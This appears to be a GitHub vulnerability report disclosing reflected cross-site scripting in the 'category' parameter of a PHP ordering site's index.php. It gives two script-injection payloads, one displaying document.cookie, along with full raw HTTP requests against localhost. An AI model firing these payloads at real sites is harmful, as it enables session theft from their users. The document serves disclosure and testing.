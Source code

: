 BUG_Author:mengleng

Vulnerability File: /bsenordering/index.php

GET parameter 'category' exists XSS vulnerability

Payload1:/bsenordering/index.php?category=<script>alert(222)</script>&q=product

```
GET /bsenordering/index.php?category=%3Cscript%3Ealert(222)%3C/script%3E&q=product HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=8e6rkj7p73lhg2ik56f55rfoc2
Connection: close
```

![image](https://github.com/2714925725/bug_report/blob/main/pic/xss1.png)

Payload2:/bsenordering/index.php?category=<script>alert(document.cookie)</script>&q=product

```
GET /bsenordering/index.php?category=%3Cscript%3Ealert(document.cookie)%3C/script%3E&q=product HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=8e6rkj7p73lhg2ik56f55rfoc2
Connection: close
```

![image](https://github.com/2714925725/bug_report/blob/main/pic/xss2.png)
